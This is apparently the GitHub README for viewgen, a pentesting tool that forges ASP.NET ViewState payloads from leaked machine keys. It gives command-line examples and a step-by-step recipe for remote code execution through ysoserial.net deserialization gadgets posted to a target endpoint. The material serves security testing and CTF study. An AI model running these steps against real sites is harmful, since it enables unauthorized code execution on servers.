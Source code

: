 # Viewgen

### ASP.NET ViewState Generator

**viewgen** is a ViewState tool capable of generating both signed and encrypted payloads with leaked validation keys or `web.config` files

---------------

### Installation

**Requirements**: Python 3

`pip3 install --user --upgrade -r requirements.txt` or `./install.sh`

**Docker**

`docker build -t viewgen .` or `docker pull 0xacb/viewgen`

---------------

### Usage
```
$ viewgen -h
usage: viewgen [-h] [--webconfig WEBCONFIG] [-m MODIFIER]
               [--viewstateuserkey VIEWSTATEUSERKEY] [-c COMMAND] [--decode]
               [--guess] [--check] [--vkey VKEY] [--valg VALG] [--dkey DKEY]
               [--dalg DALG] [-u] [-e] [-f FILE] [--version]
               [payload]

viewgen is a ViewState tool capable of generating both signed and encrypted
payloads with leaked validation keys or web.config files

positional arguments:
  payload               ViewState payload (base 64 encoded)

options:
  -h, --help            show this help message and exit
  --webconfig WEBCONFIG
                        automatically load keys and algorithms from a
                        web.config file
  -m MODIFIER, --modifier MODIFIER
                        VIEWSTATEGENERATOR value
  --viewstateuserkey VIEWSTATEUSERKEY
                        ViewStateUserKey CSRF value
  -c COMMAND, --command COMMAND
                        command to execute
  --decode              decode a ViewState payload
  --guess               guess signature and encryption mode for a given
                        payload
  --check               check if modifier and keys are correct for a given
                        payload
  --vkey VKEY           validation key
  --valg VALG           validation algorithm
  --dkey DKEY           decryption key
  --dalg DALG           decryption algorithm
  -u, --urlencode       URL encode viewstates
  -e, --encrypted       ViewState is encrypted
  -f FILE, --file FILE  read ViewState payload from file
  --version             show viewgen version
```

---------------

### Examples

```bash
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[+] ViewState
(('1628925133', (None, [3, (['enctype', 'multipart/form-data'], None)])), None)
[+] Signature
7441f6eeb4fab5a5f30d6ba99908c08eb683b9e6
[+] Signature match

$ viewgen --webconfig web.config --modifier CA0B0334 "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRk"
r4zCP5CdSo5R9XmiEXvp1LHVzX1uICmY7oW2WD/gKS/Mt/s+NKXrMpScr4Gvrji7lFdHPOttFpi2x7YbmQjEjJ2NdBMuzeKFzIuno2DenYF8yVVKx5+LL7LYmI0CVcNQ+jH8VxvzVG58NQIJ/rSr6NqNMBahrVfAyVPgdL4Eke3Bq4XWk6BYW2Bht6ykSHF9szT8tG6KUKwf+T94hFUFNIXXkURptwQJEC/5AMkFXMU0VXDa

$ viewgen --guess "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
[+] ViewState is not encrypted
[+] Signature algorithm: SHA1

$ viewgen --guess "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[!] ViewState is encrypted
[+] Algorithm candidates:
AES SHA1
DES/3DES SHA1
```

---------------

### Achieving Remote Code Execution

Leaking the `web.config` file or validation keys from ASP.NET apps results in RCE via ObjectStateFormatter deserialization if ViewStates are used.

You can use the built-in `command` option ([ysoserial.net](https://github.com/pwntester/ysoserial.net) based) to generate a payload:

```bash
$ viewgen --webconfig web.config -m CA0B0334 -c "ping yourdomain.tld"
```

However, you can also generate it manually:

**1 -** Generate a payload with [ysoserial.net](https://github.com/pwntester/ysoserial.net):

```bash
> ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "ping yourdomain.tld"
```

**2 -** Grab a modifier (`__VIEWSTATEGENERATOR` value) from a given endpoint of the webapp

**3 -** Generate the signed/encrypted payload:

```bash
$ viewgen --webconfig web.config --modifier MODIFIER PAYLOAD
```

**4 -** Send a `POST` request with the generated ViewState to the same endpoint

**5 -** Profit 🎉🎉

---------------

**Thanks**

- [@orange_8361](https://twitter.com/orange_8361), the author of *Why so Serials* (HITCON CTF 2018)
- [@infosec_au](https://twitter.com/infosec_au)
- [@smiegles](https://twitter.com/smiegles)
- **BBAC**
- All contributors

---------------

**CTF Writeups**

- https://xz.aliyun.com/t/3019
- https://cyku.tw/ctf-hitcon-2018-why-so-serials/

**Blog Posts**

- https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/

**Talks**

- https://illuminopi.com/assets/files/BSidesIowa_RCEvil.net_20190420.pdf
- https://speakerdeck.com/pwntester/dot-net-serialization-detecting-and-defending-vulnerable-endpoints

---------------

### ⚠ Legal Disclaimer ⚠

This project is made for educational and ethical testing purposes only. Usage of this tool for attacking targets without prior mutual consent is illegal. Developers assume no liability and are not responsible for any misuse or damage caused by this tool.
